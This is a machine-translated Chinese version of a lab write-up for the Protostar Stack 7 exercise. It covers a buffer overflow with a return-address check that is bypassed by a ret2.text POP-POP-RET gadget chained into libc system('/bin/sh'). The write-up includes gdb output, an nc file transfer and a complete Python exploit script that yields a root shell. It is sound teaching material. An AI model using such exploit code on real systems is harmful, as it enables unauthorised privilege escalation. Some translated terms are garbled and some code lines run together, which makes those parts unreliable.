


# [ExpDev]漏洞利用练习|原恒星|堆栈 7

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-7-fea3ac85ffe7?source=collection_archive---------2----------------------->


# 堆栈 7 (ret2.text)

此挑战的目标是绕过对返回地址的限制，并导致任意代码执行。对返回地址的限制将阻止我们使用任何以`0xb`开头的地址。

所以从[栈 6](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6) 写起，由于我们无法使用栈中的任何地址(`0xbf`)，我们利用 ret2libc 技术利用了一个 libc 小工具(位于`0xb7`)。然而，对于栈 7，我们也被限制一起使用位于`0xb`的任何地址。

为了避免这一点，我们将利用另一种称为 return to 的面向返回的编程(“ROP”)技术。文本(" ret2.text ")。

*   链接:[https://exploit-exercises.lains.space/protostar/stack7/](https://exploit-exercises.lains.space/protostar/stack7/)



## 注意事项

*   `gets(buffer);`:弱势群体。它从 stdin 中读取一行，但不检查缓冲区溢出→这容易受到 BOF 类型的攻击。
*   `char buffer[64];`:这将我们的缓冲长度限制为 64 字节。→我们可以输入超过 64 个字节来引起 BOF。
*   `if((ret & 0xb0000000) == 0xb0000000)`:这是对在`0xb0000000 — 0xbfffffff`位置之间使用任何返回地址的限制。(请查看我的 [Stack 6](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6) 文章，了解程序是如何限制使用这些地址的。)



# 漏洞利用(ret2.text)

为了规避这种类型的限制，我们可以利用 ROP 链攻击，特别是 ret2.text 技术。简单地说，由于我们对跳转到任何堆栈或 libc 地址都有限制，我们可以转而跳转到程序的`.text`部分(=程序的 ASM 代码所在的地方)并利用一个特殊的小工具(=以`POP, POP, RET`的`RET`结尾的一小段指令序列)来获得代码执行。

为此，我们需要具备以下先决条件:

1.  ✅获得对筹码的完全控制权`EIP`。
2.  ✅在程序上找到可用的`POP, POP, RET`小工具。
3.  需要禁用✅数据执行保护(“DEP”)。

## 寻找 EIP 偏移

让我们创建一个 python 脚本来找到我们可以控制的偏移值`EIP`:

```
#!/usr/bin/pythonpadding = "A" * 70
padding+= "BBBBCCCCDDDDEEEEFFFFGGGG"print padding
```

然后，在一个文件中创建一个漏洞利用的输出，以便我们可以用 gdb 运行它。

```
$ python exploit.py > /tmp/stack7/exploit
```

现在，运行 gdb 并提供漏洞文件。

```
**$ gdb -q stack7**
  Reading symbols from /opt/protostar/bin/stack7...done.
**(gdb) break * main**
  Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
**(gdb) run < /tmp/stack7/exploit**
  Starting program: /opt/protostar/bin/stack7 < /tmp/stack7/exploit Breakpoint 1, main (argc=1, argv=0xbffff854) at stack7/stack7.c:28
  28 in stack7/stack7.c
**(gdb) continue**
  Continuing.
  input path please: got path
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDEEAABBBBCCCCDDDDEEEEFFFFGGGG Program received signal SIGSEGV, Segmentation fault.
 **0x45454444** in ?? ()
```

“0x44”和“0x45”在 ASCII 表示中分别是“D”和“E”。因此，偏移量为 80 (= 70 + "BBBBCCCCDD ")。

```
**...
(gdb) continue**
  Continuing.  Program received signal SIGSEGV, Segmentation fault.
  **0x44444343** in ?? ()                             
**(gdb) info registers** eax            0x804a008 134520840
  ecx            0x0 0
  edx            0x3 3
  ebx            0xb7fd7ff4 -1208123404
  esp            0xbffff7a0 0xbffff7a0
  ebp            0x44444343 0x44444343
  esi            0x0 0
  edi            0x0 0
  **eip            0x45454444 0x45454444       <---- EIP Overflowed**
  eflags         0x210206 [ PF IF RF ID ]
```

此外，现在我们可以在崩溃时控制`EIP`,这意味着我们可以跳转到堆栈中我们希望的任何位置。

## 查找 POP POP RET 小工具

网站上的提示说，我们可以很容易地利用名为“msfelfscan”的工具获得合适的指令。让我们先把栈 7 转移到我们的盒子里。

```
**### Moving Stack7****## On your Kali box**
$ nc -lvnp 8000 > stack7**## On the Protostar box**
$ nc 192.168.117.144 8000 < /opt/protostar/bin/stack7
```

一旦它被传输到您的盒子，运行“msfelfscan”来找到`POP, POP, RET`小工具。

```
**### msfelfscan**$ /usr/share/framework2/msfelfscan -s -f stack7
**0x080485c7   edi ebp ret
0x08048492   ebx ebp ret
0x080485f7   ebx ebp ret**
```

## 漏洞脚本

所以现在我们有了上面的 3 个`POP, POP, RET`小工具地址(这 3 个地址中的任何一个都同样有效)。这种黑魔法是这样运作的:

```
**### 🚨 Exploit Execution Flow**1) Padding = "A" * 80
2) EIP = **0x080485c7** (POP, POP, RET)
3) POP = 4 bytes of junk
4) POP = 4 bytes of junk
5) RET = ****JMP to the address that we wish to**
         [Option #1]** "\x90" * 80 + shellcode of /bin/sh **[Option #2]** libc /bin/sh syscall
```

让我们把一切放在一起，创造我们的利用。我们将使用**【选项# 2】**方法以 root 用户身份获得 shell 访问权限:

```
**[exploit.py]**#!/bin/usr/pythonimport structpadding = "A" * 80
padding+= "\xc7\x85\x04\x08"          **# 0x080485c7 (POP, POP, RET)**
padding+= "BBBB"                      **# 1st POP w/ junk**
padding+= "CCCC"                      **# 2nd POP w/ junk****# Using the following to confirm code execution for SIGTRA**P
#padding+= "\xd8\xf7\xff\xbf"         **# 0xbffff7d8 (Middle of NOP)**
#padding+= "\x90" * 80
#padding+= "\xCC" * 4                 **# int3 to cause SIGTRAP****# libc /bin/sh (*Check** [**Stack6**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6) **to see how I got those addresses)**
system = struct.pack("I", 0xb7ecffb0)
ret = "\x90" * 4
shell = struct.pack("I", 0xb7e97000 + 0x11f3bf)print padding + system + ret + shell
```

一旦我们使用`cat`技巧运行上述漏洞利用脚本，无需引入任何外壳代码，我们就可以成功地打开一个具有 root 权限的`/bin/sh`外壳。

```
$ (python /tmp/stack7/exploit.py; cat) | ./stack7
```


感谢阅读！

## 下一个挑战:

*   [**格式 0**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-0-332983bfd388) —格式字符串开发简介

